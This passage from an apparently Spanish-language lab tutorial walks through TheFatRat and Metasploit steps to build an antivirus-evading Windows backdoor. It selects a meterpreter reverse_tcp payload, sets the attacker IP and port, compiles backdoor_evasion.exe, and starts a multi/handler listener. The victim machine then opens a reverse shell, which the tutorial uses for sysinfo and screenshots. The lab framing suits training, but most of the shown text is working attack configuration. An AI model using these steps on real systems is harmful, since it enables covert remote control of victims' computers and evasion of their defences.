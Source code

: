 
#### Paso 3: Seleccionar payload

```
1) windows/meterpreter/reverse_tcp
```

---

#### Paso 4: Configurar IP y puerto

```
LHOST: 192.168.56.1      # IP de tu Kali Linux
LPORT: 4444              # Puerto abierto
```

---

#### Paso 5: Nombre del archivo de salida

```
Output filename: backdoor_evasion.exe
```

TheFatRat ahora generará:

- Shellcode con `msfvenom`
- Empaque del payload en C (usando `mingw32`)
- Evasión mediante codificación y ofuscación
- Compilación de archivo final `.exe`

💾 **Archivo generado:** `backdoor_evasion.exe`

---

#### Paso 6: Iniciar el listener en Metasploit

```bash
msfconsole
```

```ruby
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.56.1
set LPORT 4444
exploit
```

---

#### Paso 7: Ejecutar el payload en la máquina víctima (laboratorio Windows)

Una vez se ejecute `backdoor_evasion.exe`, se establece la conexión **reverse shell**, y tendrás acceso como si estuvieras dentro del sistema:

```
Meterpreter > sysinfo
Meterpreter > screenshot
```

---